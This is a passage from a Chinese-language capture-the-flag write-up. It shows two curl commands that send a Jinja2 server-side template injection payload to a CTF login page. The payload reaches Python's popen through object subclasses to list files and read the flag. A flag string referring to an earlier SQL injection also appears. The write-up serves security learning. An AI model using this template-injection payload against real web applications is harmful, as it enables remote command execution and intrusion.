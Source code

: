 ![](assets/4-11.png)
可看到 popen function 的確在裡面，並且因為這是個字典，所以直接用 ```["popen"]``` 來存取即可\
如此一來就可執行任意指令，達成 RCE，並 ls 出 flag 檔案了
```sh
curl https://login.ctf.zoolab.org/ --request POST -d \
'username=admin&password=FLAG{Un10N_s31eCt/**/F14g_fR0m_s3cr3t}&greet={{[].__class__.
__base__.__subclasses__()[140].__init__.__globals__["popen"]("ls").read()}}'
```
![](assets/4-12.png)
最後 ```cat flag.txt```
```sh
curl https://login.ctf.zoolab.org/ --request POST -d \
'username=admin&password=FLAG{Un10N_s31eCt/**/F14g_fR0m_s3cr3t}&greet={{[].__class__.
__base__.__subclasses__()[140].__init__.__globals__["popen"]("cat flag.txt").read()}}'
```